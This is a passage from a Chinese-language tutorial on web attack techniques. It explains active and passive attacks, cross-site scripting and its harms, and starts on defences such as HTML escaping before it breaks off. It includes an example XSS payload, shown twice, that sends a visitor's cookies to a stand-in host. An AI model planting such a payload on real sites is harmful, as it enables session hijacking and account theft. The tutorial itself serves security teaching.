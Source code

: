 # 七、Web 攻击技术

## 7.1 攻击模式

### 7.1.1 主动攻击

> 直接攻击服务器，具有代表性的有 `SQL` 注入和 `OS` 命令注入。

### 7.1.2 被动攻击

- 设下圈套，让用户发送有攻击代码的 `HTTP` 请求，用户会泄露 `Cookie` 等个人信息，具有代表性的有跨站脚本攻击和跨站请求伪造。

## 7.2 跨站脚本攻击

### 7.2.1 概念

> 跨站脚本攻击（`Cross-Site Scripting, XSS`），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 Cookie 等各种内容。

例如有一个论坛网站，攻击者可以在上面发表以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

> 另一个用户浏览了含有这个内容的页面将会跳往 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 7.2.2 危害

- 伪造虚假的输入表单骗取个人信息
- 窃取用户的 `Cookie` 值
- 显示伪造的文章或者图片

### 7.2.3 防范手段

**过滤特殊字符**

许多语言都提供了对 HTML 的过滤：

- php 的 `htmlentities()` 或是 `htmlspecialchars()`。
- Python 的 `cgi.escape()`。
- Java 的 `xssprotect` (Open Source Library)。
- node.js 的 `node-validator`。

**指定 HTTP 的 Content-Type**

通过这种方式，可以避免内容被当成 HTML 解析，比如 php 语言可以使用以下代码：
